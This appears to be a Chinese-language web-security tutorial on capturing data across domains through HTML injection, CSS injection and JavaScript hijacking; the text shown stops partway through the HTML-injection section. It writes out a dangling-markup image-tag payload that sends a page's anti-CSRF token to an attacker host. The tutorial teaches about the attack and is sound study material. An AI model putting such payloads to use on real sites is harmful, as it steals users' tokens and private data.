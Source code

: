 # 原创
：  【web-攻击用户】（9.4）跨域捕获数据——通过注入HTML捕获数据、注入CSS捕获数据、JavaScript劫持

# 【web-攻击用户】（9.4）跨域捕获数据——通过注入HTML捕获数据、注入CSS捕获数据、JavaScript劫持

**目录**

[跨域捕获数据](#%E8%B7%A8%E5%9F%9F%E6%8D%95%E8%8E%B7%E6%95%B0%E6%8D%AE)

[1.1、简介：](#1.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A)

[1.2、通过注入HTML捕获数据](#1.2%E3%80%81%E9%80%9A%E8%BF%87%E6%B3%A8%E5%85%A5HTML%E6%8D%95%E8%8E%B7%E6%95%B0%E6%8D%AE)

[简介：](#%E7%AE%80%E4%BB%8B%EF%BC%9A)

[示例：](#%E7%A4%BA%E4%BE%8B%EF%BC%9A)

[1.3、通过注入CSS捕获数据](#1.3%E3%80%81%E9%80%9A%E8%BF%87%E6%B3%A8%E5%85%A5CSS%E6%8D%95%E8%8E%B7%E6%95%B0%E6%8D%AE)

[简述：](#%E7%AE%80%E8%BF%B0%EF%BC%9A)

[1.4、JavaScript劫持](#1.4%E3%80%81JavaScript%E5%8A%AB%E6%8C%81)

[简述：](#%E7%AE%80%E8%BF%B0%EF%BC%9A)

[函数回调](#%E5%87%BD%E6%95%B0%E5%9B%9E%E8%B0%83)

[JSON](#JSON)

[变量分配](#%E5%8F%98%E9%87%8F%E5%88%86%E9%85%8D)

[E4X](#E4X)

[防止JavaScript劫持](#%E9%98%B2%E6%AD%A2JavaScript%E5%8A%AB%E6%8C%81)

---


## 跨域捕获数据

> 
<h3>1.1、简介：</h3>
1、同源策略旨在防止在一个域中运行的代码访问由其他域提供的内容。因此跨站点请求伪造攻击通常被称为"单向"攻击。虽然一个域可以向另一个域提供请求，但它很难读取这些请求的响应，从而从其他域中窃取用户数据。
2、实际上在某些情况下，有各种攻击技巧可用于从其他域中捕获整个或部分响应。通常这些攻击会对目标应用程序某方面的功能及常见浏览器的某个功能加以综合利用，从而突破同源策略防卸，实现跨域捕获数据的目的。


> 
<h3>1.2、通过注入HTML捕获数据</h3>
<h4>简介：</h4>
1、与利用XSS漏洞不同，攻击者可以利用许多应用程序提供的功能，在其他用户收到的响应中注入一段有限的HTML。如Web邮件应用程序可能会显示包含某个HTML标记的电子邮件，但会阻止可用于执行脚本代码的任何标签和属性。或动态生成的错误消息可能会过滤一系列表达式， 但仍然允许有限使用HTML。
2、在这些情况下，就可以利用HTML注入条件向攻击者所在的域发送页面中的敏感数据，如在Web邮件应用程序中，攻击者或许可以捕获私人电子邮件的内容。或攻击者也许可以读取页面中使用的反CSRF令牌，从而实施CSRF攻击，将用户的电子邮件转发到任意地址
<hr/>
<h4>示例：</h4>
如果在注入点之后， 页面包含了一个提供CSRF令牌的HTML表单
**1、方法一：**
攻击者可以在响应中注入文本：&lt;img src='http://mdattacker.net/capture?html=
这段HTML将打开一个指向攻击者域中的URL的图像标签，该URL包含在单引另内，但URL字符串并未终止，&lt;img&gt;标签也没有结束。这会导致浏览器将注入点之后的文本视为URL的一部分， 直到遇到单引号，也就是响应中随后出现引用的JavaScript字符串的位置，浏览器接受各种插入字符， 也允许URL跨越多行。
用户的浏览器处理攻击者注入的响应时，它会尝试提取指定的图像，并向URL提出请求，从而向攻击者的域中发送敏感的反CSRF令牌
